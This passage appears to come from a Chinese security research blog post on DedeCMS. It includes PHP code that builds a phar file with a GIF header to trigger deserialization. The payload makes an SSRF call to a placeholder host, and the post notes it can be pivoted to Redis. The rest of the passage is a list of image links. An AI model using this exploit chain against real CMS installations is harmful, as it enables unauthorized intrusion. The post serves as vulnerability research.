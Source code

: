 ![image.png-356.7kB][32]

然后就会触发任意文件读取，当然，如果读取文件为phar，则会触发反序列化。

我们需要先生成相应的phar
```
<?php

class Control
{
    var $tpl;
    // $a = new SoapClient(null,array('uri'=>'http://example.com:5555', 'location'=>'http://example.com:5555/aaa'));
    public $dsql;

    function __construct(){
		$this->dsql = new SoapClient(null,array('uri'=>'http://xxxx:5555', 'location'=>'http://xxxx:5555/aaa'));
	}

    function __destruct() {
        unset($this->tpl);
        $this->dsql->Close(TRUE);
    }
}

@unlink("dedecms.phar");
$phar = new Phar("dedecms.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
$o = new Control();
$phar->setMetadata($o); //将自定义meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();

?>
```

然后我们可以直接通过前台上传头像来传文件，或者直接后台也有文件上传接口，然后将rogue mysql server来读取这个文件

```
phar://./dedecms.phar/test.txt
```

监听5555可以收到
![image.png-38.9kB][33]

ssrf进一步可以攻击redis等拓展攻击面，就不多说了。



## 部分CMS测试结果


[1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/3t0iv2wtgra8pjxb3hlgv4ao/image.png
[2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/n0rx8iobd8fxtx5dunos7km3/image.png
[3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4x1yyuqbcnugcbqvzofcs3pp/OXDM5E5$ST51%5B$0B%60@BBG~S.png
[4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/eqng4m7z35a0b7qclj1jmg21/image.png
[5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/7yori2fkfjl9dlmgtussxdd4/image.png
[6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/m6gjcjz5w63tnh79jjl2id7k/image.png
[7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/bl2bviwpwbj3xbkd9ehp258g/image.png
[8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/7sx4ebpx0xtchs4lj0qvo09k/image.png
[9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/tobzz9kf0ikfp3h5jqi07m4i/image.png
[10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/b4xa1b2s05wue6o04k7i1wfw/image.png
[11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ock8gpk4wjufrzu434o4sh2e/image.png
[12]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/qwoi5pnwgiw1lmdcx5e7836b/image.png
[13]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ub5d1ylbd28m9o8zalt4cnto/image.png
[14]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/dfs1q3dm1i6r10mjywgpp819/image.png
[15]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/mrqd72185373870f6wrdas8a/image.png
[16]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/y0x18uc96fwpov4bqn0qhhqj/image.png
[17]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/lwmbbklsfgdti60e8qyjqtw7/image.png
[18]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/72iqa6e7i3928wckfuacxiny/image.png
[19]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ijivo1toa7afcm4gug7tjzk5/image.png
[20]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/0adbu75qrcuv8caau262m34i/image.png
[21]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/6orndbdfrf1bqysouez1uauj/image.png
[22]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ciy78f57vftzichc3xg82qgd/image.png
[23]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ngn1u8fu15qz5d9830lrcbhn/image.png
[24]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/xd6jvuhaofstoduthnb15a1w/image.png
[25]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/vpa6tokfa26dng7eqr8bsubc/image.png
[26]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4cief0ku1991kkpavlda1lm6/image.png
[27]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/1dl9y4ioznpis2z2xi5ixxdd/image.png
[28]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/j27yhc2er961j4gqttmhwutu/image.png
[29]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4dr8vlhpn5lnn8ktq1jbn2ao/image.png
[30]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/twls59xuylfk78j4ikrk3eii/image.png
[31]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/hwg8ahoh48odump72h6tf3c1/image.png
[32]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4ze2by2xa8jwgbnvpquoxxt6/image.png
[33]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ccwgrjox5x7nxklrtnaxaemk/image.png
[34]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/g5mmomxuunolwnwd69vcf567/image.png
[35]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/i9m3hv9246ziexne1c2d7iik/image.png
[36]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/notx2emuvmf7y0nd7w84sj14/image.png
[37]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/qe1q1zcew7fxp32gtb4ub0jh/image.png
[38]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/otdllmlrbgd0tygavkolgnlb/image.png
[39]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4yfa4fir4mp1np0jc25gffnw/image.png
[40]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/g7z10bjdd0dphkwuv4k17up7/image.png
[41]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/w9fokrfdntuwsgf9kx9ypcqa/image.png
[42]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4rfb6q9bzgunh41snsx2jqhp/image.png
[43]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/1xt3jcs0jaiekw13t78nxymi/image.png
[44]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/7yfr1ef8rzjggwaju4xyn9ld/image.png
[45]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/8vwz2j222q7nh07r71m12cb4/image.png
[46]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/7jbzoxpoon4bq9cbldg2zv8f/image.png